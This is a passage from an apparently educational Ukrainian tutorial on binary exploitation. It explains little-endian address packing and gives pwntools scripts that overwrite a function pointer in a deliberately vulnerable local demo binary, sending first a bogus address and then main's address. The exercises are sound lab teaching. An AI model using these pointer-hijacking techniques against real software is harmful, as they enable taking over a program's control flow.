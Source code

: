 Вивід:
```
Число:    0x401136
Байти:    b'\x36\x11\x40\x00\x00\x00\x00\x00'
Hex:      3611400000000000
Довжина:  8 байт
```

**Little Endian** означає "молодший байт першим":
- `0x00401136` → байти: `36 11 40 00 00 00 00 00`
- Перший байт (36) - це найменший
- Останній байт (00) - це найстарший

### Чому саме 8 байт?

```c
read(0, &fp, 8);  // Читає рівно 8 байт
```

- На **64-bit системі** покажчик займає **8 байт** (64 біти)
- На **32-bit системі** покажчик займає **4 байти** (32 біти)

```
64-bit адреса:  0x0000000000401136  (8 байт)
32-bit адреса:  0x00401136          (4 байти)
```

## 🎓 Експерименти

### Експеримент 1: Відправте неправильну адресу

```python
#!/usr/bin/env python3
from pwn import *

io = process('../build/stage04_demo_no_offset')

# Відправляємо випадкову адресу
bad_addr = 0xdeadbeef
io.send(p64(bad_addr))

try:
    output = io.recvall(timeout=1)
    print(output)
except:
    print("Процес крашнувся (очікувано)")
```

Результат: **Segmentation fault** - процес намагається виконати код за неіснуючою адресою.

### Експеримент 2: Відправте адресу main()

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('../build/stage04_demo_no_offset', checksec=False)
io = process('../build/stage04_demo_no_offset')

# Відправляємо адресу main замість win
main_addr = elf.symbols['main']
log.info(f"Відправляємо адресу main: {hex(main_addr)}")
io.send(p64(main_addr))

# Що станеться?
try:
    output = io.recvall(timeout=2)
```